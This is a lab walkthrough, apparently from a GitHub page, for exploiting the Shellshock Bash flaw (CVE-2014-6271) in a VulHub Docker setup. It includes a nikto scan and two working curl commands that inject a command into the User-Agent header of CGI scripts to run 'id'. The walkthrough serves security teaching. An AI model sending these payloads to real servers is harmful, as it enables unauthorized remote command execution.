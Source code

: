 
---

# 🛠️ **Shellshock Remote Command Injection (CVE-2014-6271)**

The **Shellshock vulnerability (CVE-2014-6271)** affects **Bash** and allows attackers to execute arbitrary commands via specially crafted environment variables. This vulnerability can be exploited when Bash is used in web applications that process HTTP headers (like **User-Agent**), allowing remote code execution.

---

## 🔗 **References**

* [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271)
* [VulHub Shellshock Docker Example](https://vulhub.org)

---

## 🛠️ **Setting Up the Exploitation Environment**

### 1. **Navigate to the VulHub Directory**

To get started, navigate to the Shellshock directory of VulHub:

```bash
/opt/vulhub/bash/CVE-2014-6271
```

### 2. **Build the Docker Environment**

Build the Docker container using **docker-compose**:

```bash
docker compose build
```

### 3. **Start the Docker Container in Detached Mode**

Start the environment:

```bash
docker compose up -d
```

### 4. **Checking Open Ports**

Once the container is running, use **netstat** to check open ports and services:

```bash
netstat -nltup
```

### 5. **Scanning with Nikto**

Use **Nikto** to check for common vulnerabilities and **CGI** directories:

```bash
nikto -Cgidirs all -h http://192.168.1.61:8080
```

---

## ⚡ **Exploiting the Shellshock Vulnerability**

Once the vulnerable target is identified, you can send specially crafted requests with **curl** to exploit the Shellshock vulnerability via the **User-Agent** header.

### **Testing with victim.cgi**

Send a request to **victim.cgi** to test the vulnerability by injecting a command into the **User-Agent** header:

```bash
curl -H "User-Agent: () { foo;  }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://192.168.1.220:8080/victim.cgi
```

This sends a payload that will execute the `id` command, which outputs user information.

### **Testing with safe.cgi**

Test the same vulnerability on another **CGI** script, **safe.cgi**, to confirm whether the target is truly vulnerable:

```bash
curl -H "User-Agent: () { foo; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://192.168.1.220:8080/safe.cgi
```

### **Expected Output**

If the vulnerability is successfully exploited, the output will include system information such as the user and group ID, which is typically shown by the `id` command.

---

## ✅ **Conclusion**

By exploiting the **Shellshock vulnerability (CVE-2014-6271)**, attackers can inject arbitrary commands via the **User-Agent** header, leading to **remote command execution**. This highlights the importance of patching vulnerable systems and implementing appropriate security measures for web servers running **Bash**-based scripts.

---


